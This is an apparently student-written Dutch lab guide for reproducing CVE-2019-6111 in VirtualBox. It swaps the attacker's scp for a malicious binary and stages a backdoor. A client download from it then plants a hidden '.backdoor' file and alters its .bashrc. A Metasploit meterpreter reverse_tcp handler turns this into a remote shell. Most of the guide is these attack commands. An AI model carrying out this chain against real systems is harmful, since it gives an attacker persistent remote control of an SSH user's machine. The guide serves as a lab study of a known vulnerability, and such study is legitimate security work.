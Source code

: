 # User Deployment Guide - CVE-2019-6111

Deze handleiding beschrijft alle vereiste stappen om de CVE-2019-6111-exploit uit te voeren en een reverse shell op de Debian-client tot stand te brengen.

## Inhoudsopgave

1.  [Vereisten](#vereisten)
2.  [Instellen Omgeving](#instellen-omgeving)
    1.  [Debian (Jessie) Machine](#debian-jessie-machine)
    2.  [Kali Linux (Rolling) Machine](#kali-linux-rolling-machine)
3.  [CVE-2019-6111](#cve-2019-6111)
4.  [Metasploit](#metasploit)

<div class="page"/>

# Vereisten<a name="vereisten"></a>

-   [VirtualBox](https://www.virtualbox.org/wiki/Downloads)
-   [Bash](https://www.gnu.org/software/bash/) of [PowerShell](https://docs.microsoft.com/en-us/powershell/scripting/install/installing-powershell?view=powershell-7.1)
-   [Git](https://git-scm.com/downloads)
-   [Debian (Jessie) vdi](https://www.osboxes.org/debian/#debian-8-jessie-vbox)
-   [Kali Linux (Rolling) vdi](https://www.osboxes.org/kali-linux/#kali-rolling-vbox)

# Instellen Omgeving<a name="instellen-omgeving"></a>

Om de exploit uit te voeren, moeten we eerst de omgeving configureren. Hiervoor hebben we twee virtuele machines nodig: een Debian (Jessie) machine en een Kali Linux (Rolling) machine. De Debian-machine zal het doelwit zijn van onze aanval, terwijl we de Kali Linux-machine gebruiken om de aanval uit te voeren.

## Debian (Jessie) Machine<a name="debian-jessie-machine"></a>

Om deze virtuele machine te installeren, hebben we een script geschreven dat de installatie automatisch uitvoert. Het script is te vinden in de map `src/debian` van deze repository.

```console
$ bash unattended_install.sh
```

of

```console
PS1> .\unattended_install.ps1
```

## Kali Linux (Rolling) Machine<a name="kali-linux-rolling-machine"></a>

Om deze virtuele machine te installeren, hebben we een script geschreven dat de installatie automatisch uitvoert. Het script is te vinden in de map `src/kali` van deze repository.

```console
$ bash unattended_install.sh
```

of

```console
PS1> .\unattended_install.ps1
```

Deze exploit vereist dat de Debian-client een bestand van een "bad" scp-server downloadt. In dit geval is de Kali-virtuele machine de "slechte" scp-server. Om van onze Kali-machine een "bad" scp-server te maken, moeten we een aangepaste scp-binary installeren. Deze binary bevindt zich in de map `src/kali/provision/golang/bin` van deze repository.

**Opmerking**: Voer dit commando uit als root.

```console
# git clone https://github.com/AntonVanAssche/CSV-NPE2223.git
# cp -r CSV-NPE2223/src/kali/provision/golang/bin/bad_scp /usr/bin/scp
```

Daarna moeten we de backdoor in de `/tmp`-map plaatsen. Deze backdoor is te vinden in de map `src/kali/provision/backdoor` van deze repository.

**Opmerking**: Voer dit commando uit als root.

```console
# cp -r CSV-NPE2223/src/kali/provision/backdoor /tmp/backdoor
```

Deze backdoor is gekoppeld aan het IP-adres `192.168.0.121`, dus we moeten het IP-adres van de Kali-machine aanpassen met behulp van het `ip.sh`-script in de map `src/kali/provision/`.

```console
$ bash ip.sh
```

Als laatste stap moeten we de `ssh`-server starten.

**Opmerking**: Voer dit commando uit als root.

```console
# systemctl start ssh
```

<div class="page"/>

# CVE-2019-6111<a name="cve-2019-6111"></a>

Het uitvoeren van de exploit is vrij eenvoudig. We moeten simpelweg een bestand downloaden van de "bad" scp-server. Dit bestand kan elk willekeurig bestand zijn. In dit voorbeeld gebruiken we het bestand `testfile.txt`.

```console
$ scp 192.168.0.121:testfile.txt .
```

Na uitvoering van het commando zal het bestand `testfile.txt` worden gedownload. Als je echter het commando `ls -a` uitvoert, zul je merken dat er ook een bestand genaamd `.backdoor` is gedownload en dat het `.bashrc`-bestand is gewijzigd.

# Metasploit<a name="metasploit"></a>

Nadat de backdoor op de Debian-client is geïnstalleerd, kunnen we een reverse shell opzetten met behulp van het Metasploit-framework.

**Opmerking**: Voer dit commando uit als root.

```console
# msfconsole -q -x "handler -p linux/aarch64/meterpreter/reverse_tcp -P 4444 -H 192.168.0.121"
```

Zodra de gebruiker een nieuwe Bash-shell opent, wordt dit gedetecteerd door Metasploit.

```console
msf6 > sessions 1
```

Om een reverse shell op te zetten, voeren we eenvoudigweg het volgende commando uit:

```console
meterpreter > shell
```
